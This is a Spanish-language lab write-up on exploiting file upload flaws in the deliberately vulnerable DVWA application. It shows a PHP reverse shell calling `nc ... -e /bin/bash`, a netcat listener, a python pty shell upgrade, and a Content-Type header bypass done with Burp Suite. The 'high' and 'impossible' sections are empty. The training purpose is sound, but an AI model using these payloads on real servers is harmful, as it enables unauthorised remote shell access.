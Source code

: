 # FU

Las vulnerabilidades de subida de archivos se producen cuando un servidor web permite a los usuarios subir archivos a su sistema de archivos sin validar suficientemente aspectos como su nombre, tipo, contenido o tamaño.

## Bajo

Para realizar este nivel, primero debemos acceder a la página de subida de archivos, para ello accedemos a la página principal de DVWA y pulsamos en `File Upload`. Una vez en la página de subida de archivos, podemos observar que el servidor web permite subir archivos de cualquier tipo, por lo que podemos subir la reverse shell que hemos creado en el nivel de `File Inclusion`.

```php
<?php

$cmd = 'nc 127.0.0.1 4000 -e /bin/bash';
system($cmd);

?>
```

Una vez subida la shell, podemos comprobar como se ha subido correctamente.

![fileUploadedLow](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/fileUploadedLow.png)

A continuación, buscamos donde se ha subido el archivo  que según nos indica la respuesta del servidor es:

![fileIndexLow](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/fileIndexLow.png)

Ahora, podemos crear una escucha en el puerto 4000 para recibir la conexión de la reverse shell y  a continuación accedemos a la URL de la shell que hemos subido para ejecutarla.

```bash
nc -lvnp 4000
```

Una vez se establece la conexión, podemos comprobar que tenemos acceso al sistema.
Si se quiere, se puede hacer un upgrade a una shell interactiva con el comando: 

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

En la siguiente imagen podemos observar como hemos obtenido una shell interactiva y hemos podido ejecutar el comando `id` para comprobar que somos el usuario `www-data`.
![challenge-1](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/challenge-1.png)

## Medio

Al contrario que en el nivel bajo, en este nivel el servidor web solo permite subir archivos de tipo `jpeg` o `png`, por lo que no podemos replicar la mecanica del nivel anterior.

![error](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/error.png)

Para poder subir la shell, debemos cambiar el tipo de archivo a `jpeg` o `png` y para ello podemos utilizar Burp Suite para interceptar la petición y modificar la cabecera `Content-Type` de la petición para que sea `image/jpeg` o `image/png`.

![intercept](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/intercept.png)

 Una vez interceptada la petición y modificada la cabecera, podemos enviar la petición y comprobar que se ha subido correctamente.

![intercept](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/intercept.png)

Al igual que en el nivel anterior, podemos observar como se ha obtenido una shell interactiva y hemos podido ejecutar el comando `id` para comprobar que somos el usuario `www-data`.
![challenge-1](https://github.com/Hec7or-Uni/seginf-pr-5/blob/main/FU/assets/challenge-1.png)

## Alto

## Imposible
